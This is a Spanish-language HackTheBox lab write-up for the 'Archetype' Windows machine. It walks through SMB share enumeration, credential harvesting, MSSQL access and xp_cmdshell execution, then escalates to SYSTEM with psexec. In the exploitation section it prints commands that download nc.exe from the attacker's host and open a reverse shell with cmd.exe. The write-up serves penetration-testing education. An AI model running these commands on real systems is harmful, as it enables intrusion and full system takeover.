

## Introduction

En este writeup se detalla el proceso de explotación de una máquina Windows vulnerada a través de varios servicios expuestos y configuraciones débiles. Durante la fase de **enumeración**, se identificaron puertos abiertos clave, como el **445 (SMB)** y el **1433 (MSSQL)**, que resultaron ser vectores principales de ataque.

Aprovechando el acceso al servicio **SMB**, se localizaron credenciales sensibles almacenadas en un archivo de configuración. Estas credenciales se utilizaron para acceder al servidor **MSSQL**, donde, mediante la activación de **xp_cmdshell**, se logró ejecutar comandos arbitrarios en el sistema operativo.

Posteriormente, utilizando herramientas como **`smbclient`**, **`mssqlclient.py`** y **`psexec.py`** de Impacket, así como utilidades adicionales como **Netcat** y **PowerShell**, se obtuvo una **reverse shell** y se escalaron privilegios hasta **NT AUTHORITY\SYSTEM**.

~~~
Platform: HackTheBox
Level: VeryEasy
OS: Windows
~~~

## Reconnaissance

~~~
Target IP: 10.129.9.89
~~~

Comenzamos con el comando **ping**, que utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Este comando envía un mensaje de “echo request” a una dirección IP y espera recibir un mensaje de “echo response”. Este proceso permite verificar si una máquina en la red es accesible y medir la latencia. Además, se puede inferir que es una máquina **Windows** debido al **TTL = 127**

## Scanning

El paquete fue recibido correctamente por la máquina objetivo. Verificada la conexión, realizamos un escaneo de múltiples etapas con la herramienta **Nmap**. Primero, identificamos los puertos abiertos:

Se encontraron multiples puertos abiertos. A continuación, realizamos un escaneo más detallado utilizando la la flag `-sCV` para obtener más información de los puertos:

## Enumeration

### 135/tcp  (msrpc - Microsoft Windows RPC)

Este puerto está asociado con el servicio de **Remote Procedure Call (RPC)**, utilizado por Windows para la comunicación entre procesos en red y la gestión de servicios como DCOM y WMI.

### 139/tcp (netbios-ssn)

Este puerto es parte del protocolo **NetBIOS** sobre TCP/IP, utilizado para compartir archivos e impresoras en redes locales. Puede ser utilizado para enumerar usuarios, nombres de máquinas y recursos compartidos

### 445/tcp (microsoft-ds - SMB Direct Hosting Service)

Este puerto está relacionado con **SMB (Server Message Block)**, utilizado para compartir archivos, impresoras y otros recursos en red. Es uno de los puertos más atacados. 

### 1433/tcp (ms-sql-s - Microsoft SQL Server)

Puerto predeterminado para **Microsoft SQL Server**, utilizado para gestionar bases de datos a través de red. Las bases de datos mal configuradas en este puerto pueden ser blanco de ataques de fuerza bruta, inyecciones SQL y exploits.

### 5985/tcp (http - Microsoft HTTPAPI HTTPD 2.0)

Puerto utilizado para **Windows Remote Management (WinRM)** sobre HTTP. Permite la administración remota de sistemas Windows mediante WS-Management.

### 47001/tcp (http - Microsoft HTTPAPI HTTPD 2.0)

Parecido al puerto 5985, este puerto es utilizado por **WinRM** para servicios administrativos y API HTTP expuestos.

### SMB Access

En este caso, me centro en el puerto **445/tcp** que ejecuta el servicio **SMB (Server Message Block)**. En primer lugar, uso el comando `smbclient -N -L \\\\10.129.9.89\\`

- `smbclient:` cliente de línea de comandos para interactuar con servidores SMB/CIFS
- `-N`: indica que no se enviarán credenciales de autenticación, útil para comprobar si el servidor permite conexiones anónimas. 
- `-L`: muestra una lista de los recursos compartidos disponibles en el servidor 
- `\\\\10.129.9.89\\`: la dirección IP de la máquina objetivo

Al ingresar correctamente notamos los recursos compartidos: `ADMIN$`, `backups`, `C$` e `IPC$`.
Procedo a investigar el recurso compartido `backups` ya que el recurso parece ser un directorio personalizado creado por el administrador o el sistema para almacenar copias de seguridad. Es probable que contenga archivos importantes, información sensible, credenciales guardadas, etc.

Con el comando `smbclient -N \\\\10.129.9.89\backups` ingresamos al recurso compartido y una vez dentro del mismo listamos el directorio con el comando `dir`. Se encuentra un archivo interesante llamado `prod.dtsConfig` que procedo a descargar en mi máquina local con el comando `get`

## Exploitation

Es bastante común que archivos de configuración como `.dtsConfig` contengan credenciales o cadenas de conexión para bases de datos alojadas en servidores SQL por lo que es probable que este relacionado con el puerto abierto **1433/tcp**. Al inspeccionar el archivo con el comando `cat` encuentro las credenciales: 

- User: `ARCHETYPE\sql_svc`
- Password: `M3g4c0rp123`
 

Como lo más probable es que estas credenciales sean de la base de datos **MSSQL (Microsoft SQL Server)** alojada en el puerto **1433/tcp** lo que procedo a realizar es clonar el repositorio **[Impacket](https://github.com/fortra/impacket)** lo que me permite usar el cliente de **MSSQL** llamado `mssqlclient`

> **Impacket** es una colección de herramientas de **Python** que implementa una serie de protocolos de red, que se utilizan comúnmente en pruebas de penetración y análisis de redes. Es una librería extremadamente útil para la explotación de redes y sistemas Windows debido a su capacidad para interactuar con varios servicios y protocolos de Windows, como SMB, RPC, NetBIOS, SMBv2, WMI y más.

### MSSQL Server Access

Para conectarme a la base de datos **MSSQL** con el cliente `mssqlclient` uso el comando `python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.9.89 -windows-auth`

- `python3`: Impacket es una librería escrita en Python, por lo que se debe invocar Python para ejecutar sus scripts 
- `mssqlclient.py`: script de Impacket diseñado para interactuar con un servidor **Microsoft SQL Server**
- `ARCHETYPE\sql_svc@10.129.9.89`: es el equivalente a DOMAIN-NAME\USERNAME@DIRECCION-IP-MSSQL
- `-windows-auth`: Este argumento le indica al script que se debe utilizar la **autenticación de Windows** para la conexión. Esto significa que el script va a intentar autenticarse en el servidor MSSQL utilizando las credenciales de Windows del usuario

Una vez ejecutado el comando notamos que ingresamos correctamente. Hago uso de `help` para ver los posibles comandos a rea1lizar: 

El comando `SELECT is_srvrolemember('sysadmin');` se utiliza en **Microsoft SQL Server** para determinar si el usuario actual (el que está conectado a la base de datos) tiene el rol de **sysadmin** en el servidor. El comando devuelve un valor que indica si el usuario actual tiene el rol **sysadmin**: En este caso devuelve **1** lo que significa que el usuario si es miembro del rol **sysadmin**

Con conocimiento de ello, utilizo el comando `EXEC xp_cmdshell 'net user';` 

- `EXEC`: en SQL Server se usa para ejecutar un procedimiento almacenado o una instrucción SQL. En este caso, se está ejecutando la función `xp_cmdshell`.
- `xp_cmdshell`:  es una función extendida de SQL Server que permite ejecutar comandos arbitrarios en el sistema operativo o servidor subyacente desde SQL Server.
- `net user`: es un comando de Windows que muestra una lista de todas las cuentas de usuario en el sistema.

Al utilizar el comando `xp_cmdshell` está deshabilitado debido a los riesgos de seguridad que representa:

Como tenemos acceso a **sysadmin** en el servidor SQL es posible habilitarlo con los siguientes comandos: 

### Reverse Shell Execution

Una vez habilitado `xp_cmdshell`, verificamos su funcionalidad ejecutando el comando `xp_cmdshell "whoami"` lo que devuelve el resultado `archetype\sql_svc`

Lo que confirma que tenemos la capacidad de ejecutar comandos arbitrarios en el sistema subyacente. Este acceso nos abre la posibilidad de establecer una **Reverse Shell**, que nos permitirá ejecutar comandos directamente en el sistema operativo de la máquina víctima sin limitarnos al entorno del servidor SQL.

Antes de proceder, verificamos si el servidor SQL puede conectarse con nuestra máquina. Para esto: 

- **Iniciamos un servidor HTTP** en nuestra máquina para transferir un archivo necesario: `sudo python3 -m http.server 80` 

- **Ponemos Netcat en escucha** en el puerto 443, que utilizaremos para recibir la conexión de la reverse shell: `sudo nc -lvnp 443`

Descargo [`nc.exe` (**Netcat**)](https://github.com/int0x33/nc.exe/blob/master/nc.exe), una herramienta que nos permitirá establecer la Reverse Shell. Colocamos este archivo en el directorio del servidor HTTP. 

Utilizamos el siguiente comando para descargar `nc.exe` desde nuestra máquina hacia la carpeta `C:\Users\sql_svc\Downloads` de la víctima y renombrarlo como `nc64.exe`:

El comando `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.15.25/nc.exe -outfile nc64.exe"` ejecuta PowerShell en la máquina víctima para descargar el archivo `nc.exe` de mi máquina local a través del servidor HTTP que configuramos anteriormente.

Verificamos en nuestro servidor HTTP que hemos recibido una solicitud de descarga, lo que confirma que hay conectividad entre ambas máquinas:

Con Netcat descargado en la máquina víctima, ejecutamos el siguiente comando para iniciar la Reverse Shell: `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.15.52 443"` 

Netcat (`nc64.exe`) abre una conexión inversa desde la máquina víctima a nuestra máquina en el puerto 443 y redirige el acceso a la consola de comandos de Windows (`cmd.exe`).

Al revisar la consola de Netcat en nuestra máquina, notamos que hemos recibido la conexión. Ahora tenemos acceso directo al sistema operativo de la máquina víctima y podemos ejecutar comandos como el usuario `sql_svc`

La flag de user se encuentra en el directorio `C:\Users\sql_svc\Desktop>`

## Privilege Escalation

Utilizo el comando `type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` El comando utiliza `type` para leer y mostrar el contenido del archivo `ConsoleHost_history.txt`, que almacena el historial de comandos ejecutados en PowerShell para el usuario `sql_svc`. Este archivo se encuentra en la ruta predeterminada de PSReadline, una herramienta que mejora la experiencia interactiva de PowerShell al registrar los comandos ingresados.

Logramos encontrar credenciales: 

- User: `administrator`
- Password: `MEGACORP_4adm1n!!`

`psexec.py` es una herramienta del paquete **Impacket** que permite a los atacantes (o pentesters) ejecutar comandos de manera remota en sistemas Windows, aprovechando el protocolo SMB (Server Message Block). Para utilizarla e ingresar como administrador procedo con el comando `python3 psexec.py administrator@10.129.9.89` 

Despues de verificar que usuario somos con el comando `whoami` notamos que devuelve `nt authority\system` por lo cual hemos alcanzado el **máximo nivel de privilegios en el sistema Windows**

La flag de root se encuentra en el directorio `C:\Users\Administrator\Desktop>`

Una vez hemos alcanzado los máximos privilegios en el sistema Windows. Hemos finalizado la máquina y por ende hemos terminado la máquina **Archetype**.

